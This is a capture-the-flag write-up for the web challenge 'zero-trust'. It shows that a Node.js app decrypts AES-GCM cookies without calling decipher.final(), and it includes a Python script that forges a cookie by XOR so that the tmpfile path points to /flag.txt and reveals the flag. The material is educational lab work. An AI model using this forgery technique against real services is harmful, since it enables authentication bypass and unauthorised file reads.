

# web/zero-trust (24 solves/488 points/first blood)

> I was researching zero trust proofs in cryptography and now I have zero trust in JWT libraries so I rolled my own! That's what zero trust means, right?
>
> Note: the flag is in `/flag.txt`

Provided: [`index.js`](index.js)

## Solution

At first glance, the file we're provided seems pretty solid in the cryptography department.
They're using AES-256-GCM, an authenticated encryption mode of AES, which is a Good Thing™ since it prevents tampering with a ciphertext.

...or, at least it would if the authentication function didn't look like this:

```javascript
function needsAuth(req, res, next) {
    const auth = req.cookies.auth;
    if (typeof auth !== "string") {
        makeAuth(req, res, next);
        return;
    }
    try {
        const [iv, authTag, ct] = auth.split(".").map((x) => Buffer.from(x, "base64"));
        const cipher = crypto.createDecipheriv("aes-256-gcm", key, iv);
        cipher.setAuthTag(authTag);
        res.locals.user = JSON.parse(cipher.update(ct).toString("utf8"));
        if (!fs.existsSync(res.locals.user.tmpfile)) {
            makeAuth(req, res, next);
            return;
        }
    } catch (err) {
        makeAuth(req, res, next);
        return;
    }
    next();
}
```

Spot the problem yet? No worries, I'll point it out to you :)

Let's consult the documentation for the [Node.js `crypto` module](https://nodejs.org/api/crypto.html), specifically the `decipher.setAuthTag()` function:

> `decipher.setAuthTag(buffer[, encoding])`
>
> When using an authenticated encryption mode (`GCM`, `CCM`, `OCB`, and `chacha20-poly1305` are currently supported), the `decipher.setAuthTag()` method is used to pass in the received authentication tag. **If no tag is provided, or if the cipher text has been tampered with, `decipher.final()` will throw,** indicating that the cipher text should be discarded due to failed authentication. \[emphasis mine\]

We can see above that the `setAuthTag()` function is called before decrypting the data, but the `decipher.final()` function is never called.
This allows attackers (including us :)) to tamper with the ciphertext, negating basically any benefits an authenticated encryption mode may bring.

How is this useful though?
Well for starters, GCM stands for Galois Counter Mode.
It's based on the similar sounding Counter (CTR) mode, which essentially transforms AES into a stream cipher.
Instead of directly encrypting the plaintext with AES and xoring blocks with stuff for example (looking at you CBC), a stream cipher generates a key stream that is xored with the plaintext to create the ciphertext.
Let's see what that looks like for GCM, since that's what we're dealing with in this case.

<div align="center">
    
    <p style="text-align: center;">Courtesy of <a href="https://commons.wikimedia.org/wiki/File:GCM-Galois_Counter_Mode_with_IV.svg">Wikimedia Commons</a>.
    Note that we can ignore the bottom part since the authentication tag isn't actually checked :)</p>
</div>

Yep, definitely a stream cipher :)
Normally this wouldn't be useful information because xoring is really hard to invert, but this isn't normal crypto.
Based on the `makeAuth` function, we actually know part of the plaintext that's encrypted with AES-256-GCM:

```javascript
function makeAuth(req, res, next) {
    const iv = crypto.randomBytes(16);
    // begin relevant section
    const tmpfile = "/tmp/pastestore/" + crypto.randomBytes(16).toString("hex");
    fs.writeFileSync(tmpfile, "there's no paste data yet!", "utf8");
    const user = { tmpfile };
    const data = JSON.stringify(user);
    // end relevant section
    const cipher = crypto.createCipheriv("aes-256-gcm", key, iv);
    const ct = Buffer.concat([cipher.update(data), cipher.final()]);
    const authTag = cipher.getAuthTag();
    res.cookie("auth", [iv, authTag, ct].map((x) => x.toString("base64")).join("."));
    res.locals.user = user;
    next();
}
```

The data that's being encrypted is just a JSON-serialized object with a single key (`tmpfile`) and value (the partially random path of the paste).
Let's check what the actual output of `JSON.stringify` looks like:

```javascript
>> console.log(JSON.stringify({"tmpfile":"/tmp/pastestore/aaaaaaaaaaa"}))
{"tmpfile":"/tmp/pastestore/aaaaaaaaaaa"}
```

Looks like there's no whitespace, so that's one less thing to deal with.
While we don't know the random path (it is random after all), luckily for us we don't need to since replacing the path with `/flag.txt` only reaches up to `pastestore`:

```javascript
{"tmpfile":"/tmp/pastestore/aaaaaaaaaaa"}
{"tmpfile":"/flag.txt"} // so short!
```

With that in mind, we can then modify our auth cookie to instead point to `/flag.txt`!
All we need to do is xor the ciphertext (i.e. the third component) with `{"tmpfile":"/tmp/pastestore"` to recover the portion of the keystream we need, and then xor *that* with `{"tmpfile":"/flag.txt"}` to get a valid cookie pointing to the flag file.
Because GCM turns AES into a stream cipher, we don't have to worry about padding or anything; we can just truncate off the rest of the original ciphertext since we don't need it (or know it haha).

I wrote up [a quick Python script](forge.py) to automate the cookie tampering process:

```python
from base64 import b64decode, b64encode
from urllib.parse import unquote_plus, quote_plus

def xor(a, b):
    return bytes(aa ^ bb for aa, bb in zip(a, b))

auth = "mQQGDoGKo3Y0nVA2Uyz3ug%3D%3D.7PUFAYWIcbbZ2hnVSMpDAw%3D%3D.tBQr%2FSqwhT1hg%2BDzri2airPQuSmlA68ow61lwVa1blHkMWsMJUqxzogUdvJbjioXfYZJ2HBU5k%2BU4vju%2Bn8%3D"

if __name__ == "__main__":
    iv, tag, ct = auth.split(".")
    ct = b64decode(unquote_plus(ct))
    new_ct = xor(b'{"tmpfile":"/flag.txt"}', xor(b'{"tmpfile":"/tmp/pastestore/', ct))
    new_ct = quote_plus(b64encode(new_ct))

    print(f"new cookie: {iv}.{tag}.{new_ct}")
```

Running it gives you the forged cookie:

```shell
$ python forge.py
new cookie: mQQGDoGKo3Y0nVA2Uyz3ug%3D%3D.7PUFAYWIcbbZ2hnVSMpDAw%3D%3D.tBQr%2FSqwhT1hg%2BDzrj%2Bbm%2FuOrCKlRKE%3D
```

Swapping out your current authentication cookie with that one and reloading then displays the flag in the text box:

<div align="center">

</div>

And there it is! `lactf{m4yb3_st1ck_t0_l1br4r1es_wr1tt3n_by_comp3t3nt_p3opl3}`.
Can't help but agree with that advice if you're going to misuse a crypto library because you don't trust other peoples' tested-secure libraries.
[JWT is okay to hate on though ;)](https://www.howmanydayssinceajwtalgnonevuln.com/)
